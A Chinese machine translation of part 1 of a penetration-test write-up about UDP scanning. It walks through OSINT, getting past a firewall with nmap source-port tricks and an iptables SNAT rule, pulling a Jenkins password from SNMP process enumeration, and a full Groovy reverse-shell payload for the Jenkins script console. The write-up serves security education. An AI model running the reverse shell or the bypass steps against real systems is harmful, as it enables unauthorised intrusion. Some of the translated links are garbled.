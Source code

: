 # 为什么您应该总是扫描 UDP 端口(1/2)

> 原文：<https://infosecwriteups.com/why-you-should-always-scan-udp-ports-part-1-2-d8ee7eb26727?source=collection_archive---------0----------------------->

[链接到第 2 部分](https://medium.com/bugbountywriteup/why-you-should-always-scan-udp-part-2-2-42050fb136d8?source=your_stories_page-------------------------------------)

# 介绍

在这个故事中，我们将看到我们如何利用 snmp 漏洞，使用 Jenkins 控制台调用反向 shell，绕过防火墙规则，绕过 AppArmor 并利用 bash 注入来提升权限，等等。

这是一个 pentest 的故事，其中扫描 udp 端口允许我们控制整个网络。让我们称这家公司为销售公司。它开始像大多数 pentest 做的那样，列举这家公司面向公众的基础设施。我们从正常的 OSINT 流程开始。我不会深入讨论这个问题，关于这个主题有很多资源，但是你可以开始研究这 3 个工具

*   https://www.maltego.com/
*   【https://github.com/laramies/theHarvester 
*   [https://github.com/lanmaster53/recon-ng](https://github.com/lanmaster53/recon-ng)

这一阶段将允许您列举大多数公共信息源。基本上，你最终会得到电子邮件地址、域名、地址、可能的雇员等。在这个特定的评估中，社会工程不在范围内，所以我们主要集中在枚举域上。

一旦有了几个可能的子域，就有了多种映射面向公众的基础设施的方法。在菲尼亚斯·菲舍尔的一个教程([https://www.exploit-db.com/papers/41915](https://www.exploit-db.com/papers/41915))中，经典的方式被大量描述。这包括使用反向 whois 查找来查找与主域名类似参数相关的其他域名，如地址或所有者。之后，您还可以使用激烈列举相邻的 ip 空间。这在瞄准分配了大 IP 范围的公司时很有用。
假设公司的主站点位于 144.33.22.11。如果他们购买了一系列公共 ip 地址，144.33.22.10 和 144.33.22.12 很可能也属于他们。

第二种也是最现代的子域枚举方法在 Patrik Hudak 的文章中有精彩的描述:[https://0xpatrik.com/subdomain-enumeration-2019/](https://0xpatrik.com/subdomain-enumeration-2019/)。

他专门研究子域接管，这是一种漏洞，在这种漏洞中，您主要由于糟糕的配置而劫持了站点的子域。要利用这一点，你需要找到所有潜在的子域。他使用更现代的方法，使用诸如 amass([https://github.com/OWASP/Amass](https://github.com/OWASP/Amass))、mass DNS(【https://github.com/blechschmidt/massdns】T3)和 rapid 7 forward DNS set([https://opendata.rapid7.com/sonar.fdns_v2/](https://opendata.rapid7.com/sonar.fdns_v2/))等工具。

你需要考虑的一件重要事情是:我得说，作为一名学生，你将得到的 90%的作业都有明确的范围。如果你幸运地得到了一个没有的(因为这些通常更有趣)，那么在绘制潜在范围时你必须非常小心。这样做的原因是，您可能会以不属于您的目标的 IP/域为目标。这是违法的。

# 绕过防火墙

我们的 pentest 的目标公司是中型企业(想想 10-15 个主要的面向公众的网站)。我们最终得到了大约 200 个 IP/子域名的潜在列表。使用 Harvey，我们能够找到一个离主站点大约 6 个 ip 的 ip，看起来很有希望(坚持原来的例子，如果主站点位于 144.33.22.10，这个 IP 是 144.33.22.16)。whois 显示它是以与主域名相同的名称注册的(在 OSINT 阶段出现的公司的一名员工)。

对网站的快速扫描没有返回任何有希望的线索。

![](img/94274eeaff534c5e5f3d370a7c38921f.png)

然而，有一个关于 nmap 的快速技巧你应该永远记住。有时，网络管理员会允许双向的基于端口的过滤，而实际上只允许出口过滤。每当您需要绕过网络规则时，您应该尝试使用通常允许的端口，如 22、53、80 和 443。这就是我们对 nmap 的源端口选项所做的。

![](img/eadaca13a0bfaaacf3f079d069bdf241.png)

如果你想看低层次的，你将无法找到它

```
netstat -an
```

因为默认情况下，nmap 对原始套接字使用 syn 扫描。这意味着连接永远不会完全建立。但是你可以用 tcpdump 看到它。您可以设置一个监听器

```
nc -lkvp 5555
```

我们将执行本地扫描

```
nmap --source-port 53 -p 5555 localhost
```

拦截流量

```
tcpdump -i lo -nn 'port 5555'
```

![](img/b0347ee22113a843c3a457181272c195.png)

您可以在这里看到 syn > syn-ack > reset

你可以在这里阅读更多关于防火墙旁路的信息:[https://nmap.org/book/firewall-subversion.htm](https://nmap.org/book/firewall-subversion.html)

我们继续设置 iptables 来获取端口。您可以使用以下规则来完成此操作:

```
iptables -t nat -A POSTROUTING -d 144.33.22.16 -p tcp -j SNAT --to :53
```

这将源端口 nat 发送到 144.33.22.16 的任何流量，将 src ip 端口更改为 53。

如果您还有任何疑问，这里有一个关于源 NAT 的极好资源:[https://gist.github.com/DavidWittman/3805130](https://gist.github.com/DavidWittman/3805130)

# 获得立足点

设置端口转发后，浏览端口 8080 下的站点向我们展示了与此类似的内容:

![](img/333041cfd8d9697c3fd001ee7144b552.png)

Jenkins 登录页面

Jenkins 是一个用于自动化 CI/CD 管道的 Java 开源工具。我们找到的版本没有任何公布的漏洞，所以我们必须走另一条路线。这篇文章的标题的原因来了。

让我们谈一会儿 snmp。对于那些以前没有使用过它的人来说，简单网络管理协议([https://en . Wikipedia . org/wiki/Simple _ Network _ Management _ Protocol](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol))是一个应用层协议，它允许您监控和管理网络设备。因为它使用 udp，所以在扫描时会被忽略。正确地枚举此端口可以让您访问许多敏感信息，其中您可以找到网络接口信息、netstat 信息和进程信息。SNMP v1 和 v2c 使用一个认证方案，该方案依赖于一个被称为**社区字符串**的秘密字符串，该字符串允许访问设备。所有设备都有一个默认的团体字符串，称为“public”。这个字符串通常不允许你修改任何东西(它是只读的),但是允许枚举设备。SNMP v3 使用与加密密钥配对的用户名/密码身份验证。

![](img/579fd6a3d9f9dcf66f894801f22cc5cf.png)

打开 snmp 端口。运行 nmap 时要时刻记住你的-sU！

有多种工具可用于利用 SNMP(https://blog . pentest academy . com/SNMP-exploitation-with-metasploit-and-SNMP set-920 de 3 fc 2c 50)，但我们选择了 nmap 和 snmpwalk。您可以在下图中看到 nmap 的可用 snmp 插件:

![](img/a5b3c61de1c689ec6ca3d99acc7a085b.png)

我们用 snmp-processes.nse 脚本获得了成功，它显示了以下输出。

![](img/cfb7ca4a038917ac156c8dffd8cd1402.png)

总是建议不要在命令行中使用密码启动进程。这是因为它们可以通过以下方式获得

*   外部进程枚举(在本例中是通过 snmp)
*   bash _ 历史日志
*   ps 的内部进程枚举(可以由其他用户执行，而不仅仅是运行命令的用户)

默认情况下，某些工具会混淆密码，如 ssh-pass，但大多数工具不会:

![](img/0c855d9e971b55dd58fef07ea9e088f2.png)

sshpass 中的模糊密码(不，我的密码不是 zzzzzzzzzzzzz)

即使进程只显示一秒钟，您仍然可以通过扫描 procfs 来记录所有的执行。pspy([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy))是一个优秀的工具，它通过在这些 fs 上设置 inotify watchers 来实现这一点

让我们继续进行 pentest。从进程 snmp 枚举中获得 jenkins 密码后，我们能够访问它。如果幸运的话，脚本控制台将被启用，并允许您从机器上调用一个反向 shell。

![](img/16711249b2d0cc82c3a68589152b02f4.png)

詹金斯脚本控制台

你可以用下面的代码调用反向 shell(如果是托管在 windows 上，用 cmd.exe 更改/bin/bash)，代码取自[https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76):

```
String host="localhost"; 
int port=8044; 
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

运行它之后，您将在您的监听器上看到类似这样的内容:

![](img/4d74c742099111b6ccc5215e04d2eb61.png)

我不得不用 python 提升到一个完全 pty 的 shell

我要在这里结束这个故事。在第 2 部分中，我们将介绍如何提升特权，结合两种不同的漏洞在 bash 脚本中注入代码并绕过 AppArmor。之后，我们利用了一个易受攻击的 sudo 命令。我还将详细介绍我们如何危害 jenkins 主机所在的新 VLAN 的其余主机。